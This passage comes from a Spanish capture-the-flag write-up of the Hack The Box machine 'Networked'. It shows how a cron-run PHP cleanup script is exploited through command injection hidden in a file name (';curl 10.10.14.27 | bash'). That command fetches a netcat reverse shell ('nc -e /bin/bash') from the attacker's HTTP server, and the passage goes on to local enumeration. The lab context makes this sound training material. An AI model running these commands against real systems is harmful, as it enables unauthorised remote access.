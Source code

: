 Tenemos que se está ejecutando la tarea `php home/guly/check_attack.php` a intervalos regulares y dicho programa en php notamos que ejecuta comandos a nivel de sistema para borrar archivos bajo la  ruta `/tmp/` y `/var/www/html/upalods/`. Por lo tanto, primero vamos a crearnos un archivo **index.html** en nuestra máquina:

```bash
#!/bin/bash

nc -e /bin/bash 10.10.14.27 443
```

Compartimos un servidor HTTP con python en la ruta donde se encuentra nuestro archivo **index.html** en cual tiene una reverse shell:

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Y ahora en la máquina víctima bajo la ruta `/var/www/html/uploads` vamos a crear un archivo de nombre `;curl 10.10.14.27 | bash`:

```bash
bash-4.2$ touch ";curl 10.10.14.27 | bash"
bash-4.2$ ls -l
total 20
-rw-r--r--. 1 root   root   3915 Oct 30  2018 127_0_0_1.png
-rw-r--r--. 1 root   root   3915 Oct 30  2018 127_0_0_2.png
-rw-r--r--. 1 root   root   3915 Oct 30  2018 127_0_0_3.png
-rw-r--r--. 1 root   root   3915 Oct 30  2018 127_0_0_4.png
-rw-r--r--  1 apache apache    0 Mar 21 02:58 ;curl 10.10.14.27 ?| bash
-r--r--r--. 1 root   root      2 Oct 30  2018 index.html
bash-4.2$
```

Ahora debemos esperar a que la tarea se ejecute para obtener acceso a la máquina como el usuario **gyly**:

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.146 - - [20/Mar/2022 20:00:02] "GET / HTTP/1.1" 200 -
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.146] 38090
whoami
guly
```

Ya somos el usuario **guly** y podemos visualizar la flag (user.txt). Antes que otra cosa, vamos a hacer un [Tratamiento de la tty](/tratamiento-tty). Ahora vamos a enumerar un poco el sistema para ver de que forma podemos escalar privilegios:

```bash
[guly@networked ~]$ id
uid=1000(guly) gid=1000(guly) groups=1000(guly)
[guly@networked ~]$ sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME
    HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

```
